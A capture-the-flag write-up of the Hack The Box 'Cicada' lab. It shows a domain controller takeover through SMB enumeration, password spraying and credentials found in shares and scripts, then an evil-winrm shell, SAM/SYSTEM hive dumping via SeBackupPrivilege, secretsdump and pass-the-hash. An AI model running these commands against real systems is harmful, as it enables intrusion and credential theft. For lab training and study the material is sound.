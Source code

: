 ```yaml
---
layout: post
title: HTB - Cicada
date: 2025-01-22 13:02 -0400
---
```


![image](/assets/img/cicada.png)

# nmap

```bash
Nmap scan report for cicada.htb (10.10.11.35)
Host is up (0.18s latency).
Not shown: 65522 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
53668/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 173.21 seconds
```

smb accepts anonymous login, and there is a file in the HR share.
```

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Doesn't seem to have a username, only a password. By doing `netexec smb $(cat ip.txt) -u guest -p '' --rid-brute` we can get a list of usernames.
Then we just check the password against every one of them.
```
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

To try every user:
`netexec smb $(cat ip.txt) -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`

Got a match on michael:

`SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`

Lets try and check winrm. No winrm, so probably just more shares?
Cannot read the DEV share.

Running enum4linux gives a lot of info. Including a second account with credentials.
```
'1108':
  username: david.orelious
  name: (null)
  acb: '0x00000210'
  description: Just in case I forget my password is aRt$Lp#7t*VQ!3
```

Still no winrm. But this one can read the DEV share.
```
smbclient -U 'david.orelious%aRt$Lp#7t*VQ!3' '\\cicada.htb\dev'
smb: \> ls
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024
```

A third account on the powershell script.
```bash
...
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
...
```

This one gives us the winrm and the user flag.
```bash
~/workspace/projects/htb/cicada » evil-winrm -i $(cat ip.txt) -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> type ..\Desktop\user.txt
e3152***************************
```

Seems that the SeBackupPrivilege allows you to read any file on the system. So we can just get the registries and get Admin maybe?
```bash
Type "WHOAMI /?" for usage.*Evil-WinRM* PS C:\Users\emilwhoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We can save SAM and SYSTEM by doing:
`cmd /c "reg save HKLM\SAM SAM & reg save HKLM\SYSTEM SYSTEM"`
Then just download them with winrm.
After that we use impacket secretsdump.py to get the admin hash. And the root flag.
`secretsdump.py -sam SAM -system SYSTEM LOCAL`

```bash
~/workspace/projects/htb/cicada » netexec winrm $(cat ip.txt) -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341' -x 'type C:\Users\Administrator\Desktop\root.txt'
WINRM       10.10.11.35     5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.10.11.35     5985   CICADA-DC        [+] cicada.htb\administrator:2b87e7c93a3e8a0ea4a581937016f341 (Pwn3d!)
WINRM       10.10.11.35     5985   CICADA-DC        [+] Executed command (shell type: cmd)
WINRM       10.10.11.35     5985   CICADA-DC        a910c***************************
```
